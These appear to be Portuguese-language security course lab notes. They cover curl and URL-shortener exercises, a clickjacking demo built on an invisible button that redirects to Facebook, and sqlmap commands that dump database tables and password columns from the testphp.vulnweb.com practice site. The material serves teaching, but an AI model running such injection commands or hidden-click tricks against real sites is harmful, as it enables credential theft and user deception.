 # 6.6

````
curl https://www.example.com

curl -o output.html https://www.example.com

curl "https://www.google.com/search?q=Ol%C3%A1%2C%20mundo%21"
````

Acessa via Web navegador

https://www.google.com/search?q=Ol%C3%A1%2C%20mundo%21


# 6.7

```
curl -s -i https://tinyurl.com/api-create.php?url=https://esr.rnp.br/cursos/?_formacao_cursos=seguranca 
```
Abra o Mozilla Firefox

```
https://tinyurl.com/27ldrg4o
qrencode -o qr_code.png "https://tinyurl.com/27ldrg4o"
```

#  6.8


* Abra o arquivo “teste.html” (clique 2 vezes nele) e veja que não há texto visível no site aberto pelo Firefox.


* Volte ao arquivo de texto no item 2 (Mousepad) e mude a linha que contém “opacity: 0;” por “opacity: 0.5;”. Salve o arquivo (Ctrl + S) e recarregue o site no Mozilla Firefox. Veja que agora o elemento oculto que reencaminha ao Facebook é parcialmente visível (botão “Click here!”) e ainda conta com uma proteção do Firefox para não abrir o link do Facebook.


* Volte ao arquivo de texto no item 2 e mude a linha que contém “opacity: 0.5;” por “opacity: 0.03;”. Salve o arquivo (Ctrl + S) e recarregue o site no Mozilla Firefox. Veja que agora o elemento oculto que reencaminha ao Facebook é praticamente invisível, ainda conta com a proteção, mas pode ser aberto por um usuário descuidado clicando ao lado direito do botão.


# 6*9 

* Agora, vamos testar o site “esr.rnp.br” (copie e cole). Os resultados foram:


* Em seguida, vamos testar o site “www.hackthissite.org” (copie e cole). Os resultados foram


# 6.10

```
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 –dbs   
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart –tables
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart –columns
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass –dump 

```
        ___